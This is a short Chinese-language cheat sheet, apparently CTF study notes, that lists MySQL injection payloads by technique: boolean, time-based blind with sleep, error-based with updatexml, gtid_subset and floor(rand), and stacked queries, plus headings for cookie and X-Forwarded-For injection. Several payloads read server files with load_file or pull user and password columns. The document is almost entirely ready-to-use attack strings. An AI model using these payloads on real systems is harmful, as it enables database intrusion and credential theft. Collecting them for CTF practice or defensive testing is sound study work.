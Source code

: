 # 布尔回显注入
	- https://www.anquanke.com/post/id/170626
	- `where id=1 and 1=1`
	- `where id=1!=2!=(database()regexp('.'))!=0`
	- `1&&((select 1,'z')>(select * from f1ag_1s_h3r3_hhhhh))`
	- `if(length(database())<0, '1', ST_X('willerror'))`
	- `exp(710-（1>1))`
- # 布尔无回显注入
	- `where id=1 and if(length(database())>5, sleep(2), 1)`
- # 报错注入
	- [大佬的文章](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-7-%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5.md)
	- `where id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,30)),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,database(),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,0x61,0x7e),1)#`
	- `') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+`
	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`
	- `exp(710)`
	- `exp(~1)`
- # 堆叠注入
	- where id=1; show tables;
-
- # 注入方向
	- 向 cookie 注入
	- 向 x-forward-for 注入
-
- 二次注入
- 宽字节
- 脚本批量注入